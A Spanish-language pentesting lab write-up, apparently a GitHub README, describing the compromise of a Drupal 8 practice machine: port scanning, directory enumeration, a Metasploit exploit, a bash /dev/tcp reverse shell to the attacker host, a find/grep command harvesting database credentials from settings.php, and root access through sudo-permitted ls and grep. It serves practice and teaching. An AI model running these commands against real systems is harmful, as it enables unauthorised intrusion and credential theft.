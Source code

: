 # Lab de Pentesting: Explotación y escalada de privilegios en máquina findyourstyle

Este repositorio documenta paso a paso cómo comprometer una máquina con Drupal 8 mediante un exploit conocido y escalar privilegios hasta obtener acceso root.

---

## Resumen

El objetivo fue identificar servicios expuestos, reconocer la tecnología del sitio, explotar una vulnerabilidad crítica en Drupal y, finalmente, escalar privilegios mediante análisis del sistema y abuso de binarios con privilegios.

---

## Herramientas utilizadas

- `ping`
- `nmap`
- `whatweb`
- `gobuster`
- `msfconsole`
- `netcat`


---

## Pasos realizados

### 1. Verificar conectividad con ping

    ping -c 1 172.17.0.2

![Ping a la IP](screenshots/ping.PNG)

Se comprobó que la máquina objetivo está activa.

---

### 2. Escaneo de puertos

        nmap -sC -sV -p- 172.17.0.2 -oN scan.txt

![puertos](screenshots/snaceoPuertos.PNG)


Se identificó que el sitio web utiliza **Drupal 8** en el puerto 80.

---

### 4. Enumeración de directorios con Gobuster

    gobuster dir -u http://172.17.0.2/ -w /usr/share/metasploit-framework/data/wordlists/unix_users.txt

![directorios](screenshots/enumerarDirectorios.PNG)

Se descubrieron los directorios:

- `/user`
- `/admin`

---

### 5. Explotación con Metasploit

Iniciamos Metasploit y buscamos exploits para Drupal 8:

    msfconsole
    search drupal 8



Y encontramos algunos exploits,seleccionamos el exploit:

![metasploit](screenshots/metasploit.PNG)

    use 0
    show options
    set RHOSTS 172.17.0.2
    run

Se logró obtener una **sesión meterpreter** activa.

![Ping a la IP](screenshots/meterpreter.PNG)

---

### 6. Escalada a shell interactiva

Ejecutamos:

    shell

![shell](screenshots/shell.PNG)

En la máquina atacante, se prepara el listener:

    sudo nc -lvnp 444

![nc](screenshots/netcat2.PNG)

Y en la máquina víctima:

    bash -c "bash -i >& /dev/tcp/172.17.0.1/444 0>&1"

![bash](screenshots/bash.PNG)

Y en ya tenemos conexión:

![bash](screenshots/netcat.PNG)

---

### 7. Búsqueda de credenciales en settings.php

Visitamos HackTricks y usamos el siguiente comando:

    find / -name settings.php -exec grep "drupal_hash_salt\|'database'\|'username'\|'password'\|'host'\|'port'\|'driver'\|'prefix'" {} \; 2>/dev/null

![hacktricks](screenshots/hacktricks.PNG)
![user](screenshots/userYpass.PNG)

Esto nos permitió localizar posibles credenciales de base de datos y usuarios del sistema.

---

### 8. Intento de login con usuario encontrado

![ballenita](screenshots/suBallenita.PNG)

Se prueba acceso con usuario `ballenita` pero no tiene permisos sudo. Se intenta un acceso sin TTY:

    script /dev/null -c "su ballenita"

![entrando](screenshots/entrando.PNG)

Funciona correctamente.

---

### 9. Abuso de binarios con privilegios

Se verifica que `ballenita` puede ejecutar ls y grep como root sin contraseña:

![root](screenshots/exeRoot.PNG)

Se ejecuta el comando:

    sudo /bin/ls /root

![root](screenshots/passRoot.PNG)

Se encuentra el archivo `secretitomaximo.txt` y se lee su contenido con:

    sudo /bin/grep '' /root/secretitomaximo.txt

![pass](screenshots/passRootEncontrada.PNG)

Se obtiene una posible contraseña de root.

---

### 10. Acceso root

Se prueba la contraseña obtenida y se confirma el acceso con privilegios de root.

![final](screenshots/final.PNG)

---

## Resultados finales

- Acceso root conseguido mediante explotación de Drupal 8.
- Escalada de privilegios exitosa utilizando binarios permitidos y acceso a archivos sensibles.

---

## Consideraciones

Este repositorio es para fines educativos y de práctica en pentesting ético. No debe usarse en sistemas sin autorización.

